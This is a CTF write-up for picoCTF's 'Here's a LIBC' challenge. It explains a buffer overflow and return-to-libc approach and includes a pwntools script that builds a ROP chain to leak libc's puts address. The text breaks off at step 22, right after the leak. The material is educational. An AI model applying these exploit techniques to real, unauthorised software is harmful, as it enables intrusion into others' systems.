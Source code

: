 # Here's a LIBC
> Write-up author: jon-brandy
## DESCRIPTION:
I am once again asking for you to pwn this binary vuln libc.so.6 Makefile nc mercury.picoctf.net 42072
## HINT:
1. PWNTools has a lot of useful features for getting offsets.
## STEPS:
1. Given a 64 bit binary file and the libc library.

![image](https://user-images.githubusercontent.com/70703371/223358966-7cf60cff-0c08-494c-9a00-5fdfd1d75206.png)


![image](https://user-images.githubusercontent.com/70703371/223359029-ea4e1434-370b-493f-bb2f-0e63350e8406.png)


2. Let's check it's protections then.

> VULN -> Partial RELRO, No Canary Found, No PIE.

![image](https://user-images.githubusercontent.com/70703371/223359201-b7035a95-3529-41ac-bc63-131855069c46.png)


3. Based from the challenge's title and the protections it has, we shall do **ret2libc attack**.
4. Let's make the binary executeable first then run it.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/223359504-53a443d5-44e2-4466-ac0f-8a5c0463ff2b.png)


5. Seems like we need to patch the binary in order to run it.
6. Luckily there's a tool named **pwninit** to patch the binary.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/223360625-16e97db6-3196-47b3-9e8f-94a2cafc3b3f.png)


![image](https://user-images.githubusercontent.com/70703371/223360687-0f801324-3df4-4a6c-a3d5-a100b73ac2ba.png)


7. Great! Now we have the patched binary file.
8. Let's try to run it now.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/223360953-abb6a2d8-9867-47c1-9054-00416d156b38.png)


9. It keeps prompt us an input.
10. Let's decompile the binary.

> vuln found at do_stuff() function

![image](https://user-images.githubusercontent.com/70703371/223361583-1f99a958-75ab-4249-a896-8cb08c2bdda3.png)


![image](https://user-images.githubusercontent.com/70703371/223361797-c73bf01b-50a9-4d3b-b59c-557e86f74a0e.png)


11. No filter for the `local_88` variable's scanf, means we can overflow the buffer here and control the **RIP**.
12. And for the `local_89` nothing special.

![image](https://user-images.githubusercontent.com/70703371/223362107-931e9354-4ede-4214-84e6-d9ec34125633.png)


13. The loop also won't be our interest here, because it just convert the case of our input.

![image](https://user-images.githubusercontent.com/70703371/223362543-2f610585-1702-4a6d-a624-27cd386337ef.png)


14. Notice we can leak the **libc runtime** using the puts call.

![image](https://user-images.githubusercontent.com/70703371/223362671-b762ae20-1b9b-42fc-a2c0-8c8f4deaf1d9.png)


15. Anyway let's get the **RIP** offset first.

> ENTER CYCLIC 1024 PATTERN

![image](https://user-images.githubusercontent.com/70703371/223362959-fa30a12b-9a39-470d-8838-58e08f5d60ca.png)


> USE THE LEAKED RSP BYTES 

![image](https://user-images.githubusercontent.com/70703371/223363070-91428397-976f-4cf5-9a19-d512620498d6.png)


16. Hence we need to enter 136 bytes as the padding.
17. Since we want to leak the **libc runtime** using the puts function, we have to make a **ROP** exploit where the `puts()` function shall call the puts. -> `puts(puts)`.
18. With this, the program shall printed out the address where `puts` is loaded inside the libc.
19. To do this we need `pop rdi` gadget, `puts@plt` offset and `puts@got` offset. We can automate the search with **pwntools**, but i prefered to do it manually.

> GET THE RDI -> 0x0000000000400913

![image](https://user-images.githubusercontent.com/70703371/223365336-cab343e4-20c4-49b7-878d-21fa116a1fd4.png)


> GET THE PUTS@PLT -> 0x400540

![image](https://user-images.githubusercontent.com/70703371/223365541-830ca543-3b8e-480d-b7ef-90f9bcc64b46.png)


> GET THE PUTS@GOT (USING PWNTOOLS) FOR THIS -> 0x601018

![image](https://user-images.githubusercontent.com/70703371/223365888-9c017687-ff5d-436c-9f4c-2790f19080f4.png)


20. To summarize, the payloads we need to send are:

```
padding (RIP offset),
pop_rdi,
puts_got,
puts_plt
```

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe], *a, **kw)

exe = './vuln_patched'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'

lib = './libc.so.6'
libc = context.binary = ELF(lib, checksec=False)

sh = start()

offsetRsp = 136 # padding to RIP

puts_got = elf.got['puts']
info('Puts Got: %#0x', puts_got)

pop_rdi_gadget = 0x0000000000400913
info('RDI: %#0x', pop_rdi_gadget)

puts_plt = elf.plt['puts']
info('Puts PLT: %#0x', puts_plt)

p = flat([
    asm('nop')*offsetRsp,
    pop_rdi_gadget,
    puts_got,
    puts_plt
])

sh.sendline(p)


sh.interactive()

```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/223367650-dcbef323-3448-411c-a31a-bd9a56896d18.png)


21. Got 3 results.
22. 




